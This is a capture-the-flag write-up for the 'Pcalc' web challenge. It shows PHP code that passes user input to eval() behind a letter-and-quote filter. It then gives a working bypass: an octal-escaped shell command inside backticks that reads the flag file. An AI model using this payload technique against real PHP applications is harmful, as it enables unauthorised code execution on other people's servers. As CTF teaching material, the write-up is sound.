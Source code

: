 ```yaml
---
title: Pcalc
date: 2021-04-25 18:15:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


This challenge contains _code execution_ but with a little twist. We can't use letters and those characters `'"\[]`. So we have to somehow bypass a filter. For more information about this sort of thing I recommend looking at this [article](https://www.programmersought.com/article/7881105401/) and this [one](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp#using-octal). (\* ^ ω ^)

The webpage looks like this:
![](/assets/img/pcalc_web.png#center)

Looking at `index.php` we can see there is only one route:

```php
$router = new Router();
$router->new('GET', '/', 'CalcController@index');
```

The controller `CalcController.php` looks like this:

```php
<?php
class CalcController
{
    public function index($router)
    {
        $formula = isset($_GET['formula']) ? $_GET['formula'] : '100*10-3+340';
        $calc = new CalcModel();
        return $router->view('index', ['res' => $calc->getCalc($formula)]);
    }
}
```

## Vulnerability
After analysing the source code we see the code is vulnerable to code execution due to the `eval` function. We only need to bypass the `preg_match_all` function.
Here is the vulnerable code:

```php
<?php
class CalcModel
{
    public static function getCalc($formula)
    {
        if (strlen($formula) >= 100 || preg_match_all('/[a-z\'"]+/i', $formula)) {
            return '🤡 dont bite the hand that feeds you human 🤡';
        }
        try {
            eval('$pcalc = ' . $formula . ';');
            return isset($pcalc) ? $pcalc : '?';
        }
        catch (ParseError $err) {
           return '🚨 report to the nearest galactic federation agency 🚨';
        }  
    }
}
```

## Exploitation
We simply input `` `\143\141\164\40\57\146\154\141\147\52` `` (note the backticks) which is octal encoded for `cat /flag*` and we get the flag:

> CHTB{I_d0nt_n33d_puny_hum4n_l3tt3rs_t0_pwn!}

٩(◕‿◕｡)۶